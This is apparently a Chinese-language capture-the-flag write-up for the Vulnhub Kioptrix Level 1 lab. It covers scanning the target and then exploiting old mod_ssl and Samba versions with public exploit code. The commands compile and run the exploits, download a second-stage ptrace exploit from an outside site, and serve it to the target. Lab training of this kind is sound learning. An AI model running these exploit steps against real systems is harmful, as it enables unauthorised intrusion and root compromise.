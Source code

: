 # Vulnhub Kioptix Level 1


# Vulnhub-kioptix-Level-1

### 基本信息

kali:192.168.110.10

靶机:192.168.110.12

### 一、信息收集

```
arp-scan -l
```

![](/vulnhub-kioptix-Level-1/01.JPG)

```
nmap -sV 192.168.110.12
```

`Apache/1.3.20、mod_ssl/2.8.4、OpenSSL/0.9.6b`

![](/vulnhub-kioptix-Level-1/02.JPG)

```
nikto -host http://192.168.110.12/
```

![](/vulnhub-kioptix-Level-1/03.JPG)

扫到有CVE-2002-0082

443端口使用了mod_ssl服务为2.8.4

### 漏洞利用1

![](/vulnhub-kioptix-Level-1/04.JPG)

查询到有exp

![](/vulnhub-kioptix-Level-1/05.JPG)

编译下

```
gcc -o exp 47080.c -lcrypto
```

![](/vulnhub-kioptix-Level-1/06.JPG)

![](/vulnhub-kioptix-Level-1/07.JPG)

```
./exp 0x6b 192.168.110.12 443
```

![](/vulnhub-kioptix-Level-1/08.JPG)

这边是后续的exploit没有下载成功，直接在shell里面尝试从链接里面下载试下

```
curl -O https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
python3 -m http.server 8080
```

```
nano 47080.c
#修改http  改成本地地址
```

![](/vulnhub-kioptix-Level-1/09.JPG)

保存后重新编译运行

![](/vulnhub-kioptix-Level-1/10.JPG)

### 漏洞利用2

前面发现了139端口

用msf扫描一下

![](/vulnhub-kioptix-Level-1/11.JPG)

![](/vulnhub-kioptix-Level-1/12.JPG)

版本是2.2.1a

`searchsploit samba 2.2`找下有无可以利用的漏洞

![](/vulnhub-kioptix-Level-1/13.JPG)

`searchsploit -p 10.c` 寻找路径

![](/vulnhub-kioptix-Level-1/14.JPG)

`cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./`

![](/vulnhub-kioptix-Level-1/15.JPG)

编译一下

![](/vulnhub-kioptix-Level-1/16.JPG)

`./samba -b 0 192.168.110.12`

![](/vulnhub-kioptix-Level-1/17.JPG)
